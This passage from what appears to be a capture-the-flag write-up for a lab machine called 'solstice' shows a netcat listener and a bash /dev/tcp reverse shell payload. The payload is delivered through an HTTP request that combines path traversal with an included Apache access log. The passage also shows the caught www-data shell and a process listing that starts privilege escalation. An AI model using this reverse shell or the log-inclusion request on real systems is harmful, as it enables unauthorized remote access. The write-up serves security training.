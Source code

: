 > And it works! We got a shell!
{: .prompt-info }

---

# post exploitation
## reverse shell
On the attacker machine we start a listener.
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Trigger the reverse shell.  
payload: `bash -c 'bash -i >& /dev/tcp/192.168.49.250/80 0>&1'`
```http
GET /index.php?book=../../../../../../../../var/log/apache2/access.log&cmd=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.49.250/80+0>%261' HTTP/1.1
Host: 192.168.250.72:8593
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.250.72:8593/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=7kbv4b7lcnuu1uprcspap5i743
Connection: close
```

Catch reverse connection.
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.250.72: inverse host lookup failed: Unknown host
connect to [192.168.49.250] from (UNKNOWN) [192.168.250.72] 55874
bash: cannot set terminal process group (488): Inappropriate ioctl for device
bash: no job control in this shell
www-data@solstice:/var/tmp/webserver$
```

## privilege escalation
Showing the process list reveals several processes responsible for serving all the different web servers of the target.
```bash
www-data@solstice:/home/miguel$ ps aux
ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.1  1.0 104116 10484 ?        Ss   14:22   0:00 /sbin/init
root         2  0.0  0.0      0     0 ?        S    14:22   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        I<   14:22   0:00 [rcu_gp]
root         4  0.0  0.0      0     0 ?        I<   14:22   0:00 [rcu_par_gp]
root         6  0.0  0.0      0     0 ?        I<   14:22   0:00 [kworker/0:0H-kblockd]
root         7  0.0  0.0      0     0 ?        I    14:22   0:00 [kworker/u2:0-flush-8:0]
root         8  0.0  0.0      0     0 ?        I<   14:22   0:00 [mm_percpu_wq]
root         9  0.0  0.0      0     0 ?        S    14:22   0:00 [ksoftirqd/0]
...
root       484  0.0  0.0   2388   760 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
root       485  0.0  0.0   2388   700 ?        Ss   14:22   0:00 /bin/sh -c /usr/bin/python -m pyftpdlib -p 21 -u 15090e62f66f41b547b75973f9d516af -P 15090e62f66f41b547b75973f9d516af -d /root/ftp/
```